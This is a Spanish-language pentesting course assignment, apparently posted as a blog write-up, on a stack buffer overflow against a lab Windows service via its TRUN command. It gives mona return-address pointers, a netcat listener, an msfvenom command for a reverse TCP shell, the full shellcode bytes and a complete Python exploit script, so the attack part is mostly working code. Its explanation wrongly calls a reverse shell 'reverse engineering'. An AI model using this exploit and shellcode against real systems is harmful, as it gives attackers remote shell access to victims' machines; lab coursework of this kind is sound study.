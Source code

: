 ```yaml
---
title: (M.IET-CS) Tarea
date: 2024-11-03 20:12:00 -05:00
categories: [pentesting]
tags: [nmap, kali, metasploit]
---
```


## **Desarrollo de la Actividad**

### **Requerimientos.**
- El objetivo principal de esta tarea consiste en revisar si cada una de esas direcciones restantes es vulnerable y permite realizar el buffer overflow que, por consecuencia, permita ejecutar el exploit y obtener una shell por conexión tcp reversa.
- Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.
- Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

----

En el Immunity Debugger, ejecutar !mona modules en el prompt de comandos.

![tarea](/assets/images/tarea/0.png)

![tarea](/assets/images/tarea/1.png)

Notamos 9 pointers:

![tarea](/assets/images/tarea/2.png)

```bash
#pointers in little endian format                                 
pointer= "\xaf\x11\x50\x62"    #625011af
pointer= "\xbb\x11\x50\x62"    #625011bb       
pointer= "\xc7\x11\x50\x62"    #625011c7       
pointer= "\xd3\x11\x50\x62"    #625011d3       
pointer= "\xdf\x11\x50\x62"    #625011df       
pointer= "\xeb\x11\x50\x62"    #625011eb       
pointer= "\xf7\x11\x50\x62"    #625011f7       
pointer= "\x03\x12\x50\x62"    #62501203       
pointer= "\x05\x12\x50\x62"    #62501205       
```

Aperturamos el puerto 4444
```bash
nc -lvnp 4444
```
![tarea](/assets/images/tarea/3.png)


Visualizamos el status del puerto:
```bash
netstat -an | grep 4444
```
![tarea](/assets/images/tarea/4.png)


Monitoreamos el puerto con watch:
```bash
watch -n 1 "netstat -an | grep 4444"
```
![tarea](/assets/images/tarea/5.png)


Generamos el shellcode con 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.9 LPORT=4444 -f c -a x86 -b "\x00"
```
![tarea](/assets/images/tarea/6.png)

Extraemos el buf:
```bash
"\xdb\xcf\xbe\x97\xdb\x6b\x1e\xd9\x74\x24\xf4\x58\x31\xc9"
"\xb1\x52\x31\x70\x17\x03\x70\x17\x83\x57\xdf\x89\xeb\xab"
"\x08\xcf\x14\x53\xc9\xb0\x9d\xb6\xf8\xf0\xfa\xb3\xab\xc0"
"\x89\x91\x47\xaa\xdc\x01\xd3\xde\xc8\x26\x54\x54\x2f\x09"
"\x65\xc5\x13\x08\xe5\x14\x40\xea\xd4\xd6\x95\xeb\x11\x0a"
"\x57\xb9\xca\x40\xca\x2d\x7e\x1c\xd7\xc6\xcc\xb0\x5f\x3b"
"\x84\xb3\x4e\xea\x9e\xed\x50\x0d\x72\x86\xd8\x15\x97\xa3"
"\x93\xae\x63\x5f\x22\x66\xba\xa0\x89\x47\x72\x53\xd3\x80"
"\xb5\x8c\xa6\xf8\xc5\x31\xb1\x3f\xb7\xed\x34\xdb\x1f\x65"
"\xee\x07\xa1\xaa\x69\xcc\xad\x07\xfd\x8a\xb1\x96\xd2\xa1"
"\xce\x13\xd5\x65\x47\x67\xf2\xa1\x03\x33\x9b\xf0\xe9\x92"
"\xa4\xe2\x51\x4a\x01\x69\x7f\x9f\x38\x30\xe8\x6c\x71\xca"
"\xe8\xfa\x02\xb9\xda\xa5\xb8\x55\x57\x2d\x67\xa2\x98\x04"
"\xdf\x3c\x67\xa7\x20\x15\xac\xf3\x70\x0d\x05\x7c\x1b\xcd"
"\xaa\xa9\x8c\x9d\x04\x02\x6d\x4d\xe5\xf2\x05\x87\xea\x2d"
"\x35\xa8\x20\x46\xdc\x53\xa3\x63\x21\x59\x3a\x1c\x23\x5d"
"\x2d\x80\xaa\xbb\x27\x28\xfb\x14\xd0\xd1\xa6\xee\x41\x1d"
"\x7d\x8b\x42\x95\x72\x6c\x0c\x5e\xfe\x7e\xf9\xae\xb5\xdc"
"\xac\xb1\x63\x48\x32\x23\xe8\x88\x3d\x58\xa7\xdf\x6a\xae"
"\xbe\xb5\x86\x89\x68\xab\x5a\x4f\x52\x6f\x81\xac\x5d\x6e"
"\x44\x88\x79\x60\x90\x11\xc6\xd4\x4c\x44\x90\x82\x2a\x3e"
"\x52\x7c\xe5\xed\x3c\xe8\x70\xde\xfe\x6e\x7d\x0b\x89\x8e"
"\xcc\xe2\xcc\xb1\xe1\x62\xd9\xca\x1f\x13\x26\x01\xa4\x23"
"\x6d\x0b\x8d\xab\x28\xde\x8f\xb1\xca\x35\xd3\xcf\x48\xbf"
"\xac\x2b\x50\xca\xa9\x70\xd6\x27\xc0\xe9\xb3\x47\x77\x09"
"\x96"
```

Usamos el siguiente Script para validar la conexión por cada pointer, con el buf en la variable "overflow"

```python
#!/usr/bin/python
import sys, socket

overflow = (
"\xdb\xcf\xbe\x97\xdb\x6b\x1e\xd9\x74\x24\xf4\x58\x31\xc9"
"\xb1\x52\x31\x70\x17\x03\x70\x17\x83\x57\xdf\x89\xeb\xab"
"\x08\xcf\x14\x53\xc9\xb0\x9d\xb6\xf8\xf0\xfa\xb3\xab\xc0"
"\x89\x91\x47\xaa\xdc\x01\xd3\xde\xc8\x26\x54\x54\x2f\x09"
"\x65\xc5\x13\x08\xe5\x14\x40\xea\xd4\xd6\x95\xeb\x11\x0a"
"\x57\xb9\xca\x40\xca\x2d\x7e\x1c\xd7\xc6\xcc\xb0\x5f\x3b"
"\x84\xb3\x4e\xea\x9e\xed\x50\x0d\x72\x86\xd8\x15\x97\xa3"
"\x93\xae\x63\x5f\x22\x66\xba\xa0\x89\x47\x72\x53\xd3\x80"
"\xb5\x8c\xa6\xf8\xc5\x31\xb1\x3f\xb7\xed\x34\xdb\x1f\x65"
"\xee\x07\xa1\xaa\x69\xcc\xad\x07\xfd\x8a\xb1\x96\xd2\xa1"
"\xce\x13\xd5\x65\x47\x67\xf2\xa1\x03\x33\x9b\xf0\xe9\x92"
"\xa4\xe2\x51\x4a\x01\x69\x7f\x9f\x38\x30\xe8\x6c\x71\xca"
"\xe8\xfa\x02\xb9\xda\xa5\xb8\x55\x57\x2d\x67\xa2\x98\x04"
"\xdf\x3c\x67\xa7\x20\x15\xac\xf3\x70\x0d\x05\x7c\x1b\xcd"
"\xaa\xa9\x8c\x9d\x04\x02\x6d\x4d\xe5\xf2\x05\x87\xea\x2d"
"\x35\xa8\x20\x46\xdc\x53\xa3\x63\x21\x59\x3a\x1c\x23\x5d"
"\x2d\x80\xaa\xbb\x27\x28\xfb\x14\xd0\xd1\xa6\xee\x41\x1d"
"\x7d\x8b\x42\x95\x72\x6c\x0c\x5e\xfe\x7e\xf9\xae\xb5\xdc"
"\xac\xb1\x63\x48\x32\x23\xe8\x88\x3d\x58\xa7\xdf\x6a\xae"
"\xbe\xb5\x86\x89\x68\xab\x5a\x4f\x52\x6f\x81\xac\x5d\x6e"
"\x44\x88\x79\x60\x90\x11\xc6\xd4\x4c\x44\x90\x82\x2a\x3e"
"\x52\x7c\xe5\xed\x3c\xe8\x70\xde\xfe\x6e\x7d\x0b\x89\x8e"
"\xcc\xe2\xcc\xb1\xe1\x62\xd9\xca\x1f\x13\x26\x01\xa4\x23"
"\x6d\x0b\x8d\xab\x28\xde\x8f\xb1\xca\x35\xd3\xcf\x48\xbf"
"\xac\x2b\x50\xca\xa9\x70\xd6\x27\xc0\xe9\xb3\x47\x77\x09"
"\x96")

shellcode = "A"*2003 + "\xaf\x11\x50\x62" + "\x90"*32 + overflow
ip_address ='10.0.2.15'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```

Reemplazamos esta sección de código del shellcode por cada pointer, de la lista anterior proporcionada.
```python
shellcode = "A"*2003 + "\xaf\x11\x50\x62" + "\x90"*32 + overflow
```
![tarea](/assets/images/tarea/7.png)

Verificamos la conexión monitoreada:
![tarea](/assets/images/tarea/8.png)

Notamos que se ha logrado acceder a la víctima:
![tarea](/assets/images/tarea/10.png)

Se realiza la prueba con los 9 pointers, los cuales, del 1 al 7 han realizado la conexión, los pointers 8 y 9, no se conectaron.


### ¿Qué es una conexión TCP Reversa?

Un shell inverso o shell de conexión inversa es una forma de tomar el control del sistema de la víctima debido a sus vulnerabilidades que dan acceso a una sesión de shell del sistema de la víctima. En la mayoría de los casos, el shell inverso tiene éxito porque aquí la víctima solo le permite ingresar a su sistema. Por supuesto, un firewall prohíbe la conexión externa, pero la mayoría de los firewalls permiten cualquier conexión saliente. Los piratas informáticos utilizan a las víctimas para ingresar a su sistema, la propia víctima nos permite conectarnos a través de ella, esto se llama ingeniería inversa.

El siguiente diagrama, es el ambiente en el cual se ha trabajado en la presenta actividad:
![tarea](/assets/images/tarea/11-diagrama.png)
